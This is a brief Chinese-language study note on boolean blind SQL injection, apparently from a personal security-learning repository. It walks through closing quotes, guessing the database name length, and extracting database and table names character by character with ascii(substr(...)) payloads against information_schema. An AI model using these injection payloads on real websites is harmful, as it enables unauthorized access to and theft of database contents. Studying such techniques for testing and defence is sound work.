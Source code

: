 ```sql
select user() regexp '^se';	#判断是不是以se开头的
select user() like 'se%'		#与上条语句含义相同

```

#### 布尔盲注

- 可以理解为给网站一个判断题，根据反应的对错来猜测数据库信息。
    - **适用场景**：没有数据回显，若条件正确有结果，否则没结果
    - **利用方式**：构造判断条件，逐个猜测

- ![image-20220810213304739](sql注入.assets/image-20220810213304739.png)

- 第一步：闭合引号，这个需要自己慢慢试，用`or 1=1  and 1=1`得到正确的sql语句构造方法。
- 先爆破出数据库名字符长度：`and     length(database())> 1 %23` 用二分法慢慢试或直接等号遍历。
- 爆破出当前数据库名：`and ascii(substr(database(),n,1)) = m #`。n就用来遍历数据库名字，m就来确定数据库名字某位是哪一个字符
- 爆破出当前数据库的表个数：`select count(table_name) as a from information_schema.tables where table_schema=database() having a={n})`。n爆破表个数。HAVING     子句可以让我们筛选满足条件的数据。
- 爆破每一个表的表名长度：`(select length(table_name) from information_schema.tables where table_schema=database() limit {n},1)={m}`
- 爆破各个表名：`and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit n,1),q,1))>m`

- 爆破表的列名。
- 爆破数据
